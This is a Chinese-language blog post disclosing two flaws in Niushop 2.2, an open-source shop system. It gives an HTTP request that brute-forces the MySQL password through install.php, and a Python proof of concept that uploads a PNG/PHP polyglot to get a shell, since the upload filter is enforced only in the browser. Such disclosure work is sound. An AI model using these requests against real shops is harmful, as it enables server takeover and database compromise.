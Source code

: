 ```yaml
---
title: "Niushop最新版 Getshell"
date: 2019-01-07T15:37:37+08:00
categories: ['Vulnerability']
tags: ['getshell','php','Vulnerability']
---
```

Niushop开源商城采用thinkphp5.0+MySQL开发语言开发,完全开源商城系统,可以用于企业,个人建立自己的网上免费商城,支持开源微信商城,开源小程序,开源新零售。
<!--more-->
下载链接：http://www.niushop.com.cn/download.html
Version：单商户 2.2

### 安装爆破MySQL密码

```http
GET /niushop/install.php?action=true&dbserver=127.0.0.1&dbpassword=root2&dbusername=root&dbname=niushop_b2c HTTP/1.1
Host: 127.0.0.1
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.102 Safari/537.36
Referer: http://127.0.0.1/niushop/install.php?refresh
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: action=db
Connection: close


```

![](https://y4er.com/img/uploads/20190509162868.jpg)

爆破成功返回1，密码错误返回0

### getshell

![](https://y4er.com/img/uploads/20190509165779.jpg)

上传图片只做了前端校验，抓包改后缀即可绕过。

对文件内容做了检查，文件大小不能过大或过小，合成马最好放到中间。

请求包截图，删除不必要的参数仍旧能够上传。

![](https://y4er.com/img/uploads/20190509163650.jpg)

所以导致**前台getshell**

### PoC

```python
import requests

session = requests.Session()

paramsGet = {"s":"/wap/upload/photoalbumupload"}
paramsPost = {"file_path":"upload/goods/","album_id":"30","type":"1,2,3,4"}
paramsMultipart = [('file_upload', ('themin.php', "\x89PNG\r\n\x1a\n\x00\x00\x00\rIHDR\x00\x00\x00\x01\x00\x00\x00\x01\x08\x06\x00\x00\x00\x1f\x15\xc4\x89\x00\x00\x00\x0bIDAT\x08\x99c\xf8\x0f\x04\x00\x09\xfb\x03\xfd\xe3U\xf2\x9c\x00\x00\x00\x00IEND\xaeB`\x82<? php phpinfo(); ?>", 'application/octet-stream'))]
headers = {"Accept":"application/json, text/javascript, */*; q=0.01","X-Requested-With":"XMLHttpRequest","User-Agent":"Mozilla/5.0 (Android 9.0; Mobile; rv:61.0) Gecko/61.0 Firefox/61.0","Referer":"http://127.0.0.1/index.php?s=/admin/goods/addgoods","Connection":"close","Accept-Language":"en","Accept-Encoding":"gzip, deflate"}
cookies = {"action":"finish"}
response = session.post("http://127.0.0.1/index.php", data=paramsPost, files=paramsMultipart, params=paramsGet, headers=headers, cookies=cookies)

print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```


参考链接

1. https://xz.aliyun.com/t/3767